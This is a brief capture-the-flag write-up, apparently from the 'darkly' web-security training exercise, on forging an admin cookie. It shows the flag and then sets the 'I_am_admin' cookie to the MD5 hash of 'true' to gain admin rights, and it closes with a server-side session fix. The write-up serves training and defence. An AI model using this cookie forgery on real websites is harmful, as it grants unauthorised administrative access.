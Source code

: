# ADMIN COOKIE

## The flag
```
THE FLAG IS : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## How to find it ?
On the page http://{IP_ADDRESS}/
See cookie with document.cookie
```
md5_decrypt('68934a3e9455fa72420237eb05902327')
> false
md5_encrypt('true')
> b326b5062b2f0e69046810717534cb09
document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"
```
Refresh page

## How to use it ?
Become admin of the website

## How to avoid it ?
> Use session cookie so it will be only editable in the back

---

[RETURN](https://github.com/tillderoquefeuil/darkly)